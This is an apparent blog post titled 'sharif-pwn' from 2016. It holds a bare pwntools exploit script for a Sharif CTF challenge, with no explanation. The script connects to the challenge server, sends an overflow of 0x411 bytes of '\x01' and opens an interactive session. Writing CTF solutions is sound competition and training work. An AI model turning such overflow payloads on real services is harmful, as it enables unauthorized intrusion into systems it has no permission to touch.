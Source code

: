 ```yaml
---
layout: post
title: "sharif-pwn"
date: 2016-02-06 21:40:50 +0800
comments: true
categories: 
---
```

'''python
from pwn import *
r = remote('ctf.sharif.edu', 27515)
#r = remote('192.168.56.203', 27515)
print r.recvuntil('enter:')
r.sendline('\x01'*(0x411))
r.interactive()
'''
